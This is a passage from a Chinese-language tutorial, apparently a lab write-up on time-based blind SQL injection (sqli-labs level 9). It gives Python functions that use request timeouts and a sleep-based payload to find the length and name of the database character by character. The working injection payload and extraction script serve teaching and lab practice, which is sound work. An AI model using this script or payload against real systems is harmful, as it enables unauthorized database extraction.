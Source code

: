 ```
        try:  #try-except 块捕获任何可能的异常，如网络超时或连接错误。
            response = requests.get(url + payload,timeout=3).text #设置超时
        except Exception:
            print("success")  #如果超时了说明正确，返回success
            break
        else:
            length += 1
    print("数据库长度为", length)
    return length
```
&emsp;&emsp;通过try-except获取超时的信息，从而判断出数据库的长度。
![sql9-time1](/images/sql/sql9-time1.png)
&emsp;&emsp;那么同理加if和try-except以及timeout从布尔盲注的脚本进行修改就可以取出数据库名。
```
def get_database_length2(database_length):
    global url
    database = ""
    for i in range(1, database_length + 1):
        for j in range(65,122):
            payload = f"?id=1' and if(ascii(substr((select database()),{i},1))={j},sleep(3),1)--+"
            try:
                response = requests.get(url + payload,timeout=3).text
            except Exception:
                database += chr(j)
                print("数据库名为",database)
                break
    return database
```
&emsp;&emsp;其余的跟这两种的修改方案一样，我就不一一放出来了，最终可以得到字段
